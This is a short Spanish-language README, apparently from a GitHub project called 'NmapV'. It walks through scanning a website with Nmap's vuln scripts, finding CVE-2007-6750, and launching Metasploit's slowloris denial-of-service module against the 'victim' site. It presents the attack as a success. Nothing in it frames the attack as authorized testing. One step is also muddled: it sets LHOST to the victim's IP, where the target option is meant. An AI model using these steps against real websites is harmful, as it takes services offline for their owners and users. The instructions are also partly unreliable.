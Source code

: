 # NmapV

Ojo esto solo es un ejemplo 👇👀

Ejemplo de una vulnerabilidad encontrada

nmap -Pn -script vuln (paginaweb) Se muestran los resultados

Es VULNERABLE A CVE-2007-6750

Okey esto ahy que copiar = CVE-2007-6750

Y Iniciar metasploit

msf6> search (pegan lo copiado CVE-2007-6750)

Se le muestra al final el exploit que deben utilizar

msf6> use dos/http/slowloris

msf6> show option = para ver las opciones

msf6> set lhost (escriben la ip de la victima osea la página web)

msf6> run

Ejecutado el atacke con éxito

....
